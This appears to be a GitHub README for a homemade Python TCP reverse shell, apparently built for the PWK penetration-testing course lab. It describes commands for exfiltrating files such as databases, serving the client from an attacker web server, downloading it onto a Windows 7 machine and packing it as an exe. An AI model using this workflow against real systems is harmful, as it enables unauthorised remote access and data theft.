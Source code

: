 Custom Python TCP reverse Shell

two main files

1. ClientTCPreverseShell
2. ServerTCPreverseShell

Edit the ip address and ports within the client and server before using. 

I am currently adding modules but they are not being used yet. 

usage

command line run >>> python ServerTCPreverseShell.py

command line run >>> python ClientTCPreverseShell.py

From shell start the server first then start the client. 

Shell> python ServerTCPReverseShell.py

Shell> python ClientTCPreverseShell.py

The server will have to be run from command line however the client can be run from Gui or commandline

The server shell on the linux side will start with a /bin/sh -i

I am currently working on changing shells and tab completing.  

--help && --commands

TO Exfil data

Shell> grab*exfil_data.txt

This command will grab the file you want and save it to your local desktop as a .txt file

Step1 for grab command

You will have to rename the .txt file to whatever suffix you downloaded from the remote hose.

Example. The command below will grab the database and copy it to your local desktop as a .txt file

Shell>grab*exfil_database.sdf

step2 for grab command

Just rename the .txt file to the proper suffix 

Shell>> cp exfil_database.txt exfil_database.sdf


TO get the environment

Shel> getenv

This will print the platform details

TO get the User ID

Shell>getuid

Notes below are for use with PWK course

You can upload the client to the windows 7 workstation in order to convert to exe

Before you start you will want to zip up the client and move to your web folder. 

step 1
move the client to your /var/www/html folder

step2 
start the apache2 webserver

step3 
remote desktop into the windows 7 box

step4 
browse to your attacker machine through internet explorer

http://ipaddress/ClientTCPrevshell.py

step5
upload the pyexe program to the windows 7 server in the same fashion. 

You can convert Client to exe format. 

Convert "ClientTCPrevshell" to EXE format. 

Get py2exe for windows and make sure to get the correct python versian.

https://sourceforge.net/projects/py2exe/files/py2exe/0.6.9/

copy to your var/www/html folder and upload to your windows 7 machine.

Install py2exe and then move the py2exe program into the same folder as 

ClientTCPreverseShell and setup.py

Edit setup.py with idle by right clicking and edit with idle. 

then run module

then test your new custom python exe shell. Copy the exe from the "dist" folder

to the desktop and start the server on kali.

next you will want to bring your .exe file back to the local kali attacker workstation. 

To do this you will just use the custom TCP Shell to grab your exe and move it back to the host. 

Step one

zip up your new custom EXE python shell and from the python server on kali

Shell> grab*Clientshell.zip

now go to your desktop and rename test.txt to ClientShell.zip

Works for me and will work for you!!!


to help with the project fork project and add a new branch. I will merge the requests. 

https://code.tutsplus.com/articles/team-collaboration-with-github--net-29876





